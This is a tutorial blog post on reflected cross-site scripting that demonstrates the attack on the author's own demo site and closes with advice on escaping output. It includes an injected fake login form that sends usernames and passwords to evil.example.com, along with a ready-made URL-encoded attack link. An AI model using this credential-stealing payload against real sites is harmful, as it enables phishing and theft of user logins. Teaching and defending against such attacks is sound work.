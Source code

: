 ```yaml
---
layout: post
title: OWASP 03 - Cross Site Scripting (XSS)
date: 2014-08-24
---
```


The third vulnerability on our trek through the OWASP top ten is [Cross-Site Scripting](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)), commonly known as XSS. It's easy to overlook the danger of XSS, as it primarily affects the client side. But, user credentials can be leaked and sites can be rendered unusable by client side scripts.

Demonstration
=============

The "hack yourself first" security sandbox doesn't appear to be vulnerable to these kind of shenanigans, so we'll turn to an alternative this time around. Not wanting to pick on a real site, I've created my own little demo site to attack at http://softwarealchemist.net/web-vulnerability-demo-site/ . This is a simple, single page site that just performs a Google image search on behalf of the user.

Now, there are two broadly defined kinds of XSS attack:

1. The stored variety, where the attacker gets some malicious client side code into the application database, for it to be regurgitated at other users of the site at some later time.
2. The reflected variety, where the attacker constructs a link with the XSS payload encoded into the URL. The attacked site then blurts the payload back at the unsuspecting visitor who clicked the link.

As our demo site doesn't have a database, we're going to look at how a reflected XSS attack works.

Head to the demo page, and type in any word in the search box. Simple enough.

Now let's see how well the site filters out dangerous inputs, try searching for `<h1>something`. The HTML we type in ends up rendered onto the page. Looks like the filtering isn't very good at all (in fact, it's non-existent).

So now, we'll do something that would be potentially harmful to a user. On a real site, we'd be concerned about data entered by the user leaving the site (think of form fields, cookies, etc.). On our site, the only information provided by the user is the search term. However, if we think a little outside the box we could get more information.

One way of mounting an XSS attack is to inject a fake form into a legitimate site. In this case, we'll ask the user for a username and password (it doesn't really matter if the login is for this service or some other). The form posts to some other (evil) website, but it appears on the attacked site.

Our form might look like this:

```html
  <form action='http://evil.example.com/getpassword'>
    Username: <input name='u' />
    Password: <input name='p' type='password' />
    <input type='submit' value='Login to Bookface' />
  </form>
```

The next question for an attacker is how to get people to type all that garbage in the search box. Of course, they don't. Take a look at how the results page is loaded. It's a GET request with everything right there in the query string. So we can construct a URL like this:

`http://softwarealchemist.net/web-vulnerability-demo-site/?search-term=%3Cform%20action%3D%22http%3A%2F%2Fevil.example.com%2Fgetpassword%22%3EUsername%3A%20%3Cinput%20name%3D%22u%22%20%2F%3EPassword%3A%20%3Cinput%20name%3D%22p%22%20type%3D%22password%22%20%2F%3E%3Cinput%20type%3D%22submit%22%20value%3D%22Login%20to%20Bookface%22%20%2F%3E%3C%2Fform%3E`

This means that the attacker can just post the link online and wait for an unsuspecting web user to click on it. The effectiveness of the attack hinges on how likely someone is to come across the link, click on it and fill out the form.

For many more (cute and harmless) examples, and to realise how wide spread this vulnerability is, have a look at the ["kitten bombs" twitter account](https://twitter.com/KittenBombs)

Mitigation
==========

This kind of attack is usually fairly easy to mitigate for any given input on any given page of your website or application, the tricky part is making sure that *all* inputs are guarded against.

Practically every framework you might use, server side or client side, has the capacity to escape outputs so that user supplied HTML and JavaScript cannot be emitted to the client side. (In fact, I had to go to some effort in the example site to *allow* user supplied HTML onto the page).

I would advise that, if you can, you periodically audit your codebase for risky outputs, using a linter or even just a quick grep. For example, in .NET view pages, you should rarely (if ever) use the unescaped `<%= %>` to produce output, preferring to use the escaped sequence (`<%: %>`).

Of course, the above advice only applies to times when yo udo not want any HTML from the user ending up on the page. It's all a bit more finicky if you do want to allow a restricted subset (for example, on forums and wikis). In most cases, if you are building a business web application, you'll want to avoid this if at all possible, and rely on a third party library if not. The usual advice about keeping your libraries up to date and regularly reading the bug tracker and release notes apply.
